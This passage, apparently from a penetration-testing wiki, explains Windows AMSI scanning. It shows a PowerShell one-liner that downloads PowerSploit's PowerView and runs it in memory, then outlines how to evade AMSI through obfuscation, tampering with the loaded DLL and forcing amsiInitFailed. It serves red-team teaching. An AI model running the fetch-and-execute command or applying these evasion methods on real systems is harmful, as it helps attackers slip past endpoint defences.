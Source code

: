 It allows antivirus solutions to inspect script behavior by exposing script contents in a form that is both unencrypted and unobfuscated.

Running `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` will produce the following alert on Windows Defender.

<figure><img src="../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

Notice how it prepends `amsi:` and then the path to the executable from which the script ran, in this case, powershell.exe

We didn't drop any file to disk, but still got caught in-memory because of AMSI.

There are a couple of ways to get around AMSI:

* **Obfuscation**

Since AMSI mainly works with static detections, therefore, modifying the scripts you try to load can be a good way for evading detection.

However, AMSI has the capability of unobfuscating scripts even if it has multiple layers, so obfuscation could be a bad option depending on how it's done. This makes it not-so-straightforward to evade. Although, sometimes, all you need to do is change a couple of variable names and you'll be good, so it depends on how much something has been flagged.

* **AMSI Bypass**

Since AMSI is implemented by loading a DLL into the powershell (also cscript.exe, wscript.exe, etc.) process, it's possible to tamper with it easily even running as an unprivileged user. Due to this flaw in the implementation of AMSI, researchers have found multiple ways to evade AMSI scanning.

**Forcing an Error**

Forcing the AMSI initialization to fail (amsiInitFailed) will result that no scan will be initiated for the current process. Originally this was disclosed by [Matt Graeber](https://twitter.com/mattifestation) and Microsoft has developed a signature to prevent wider usage.
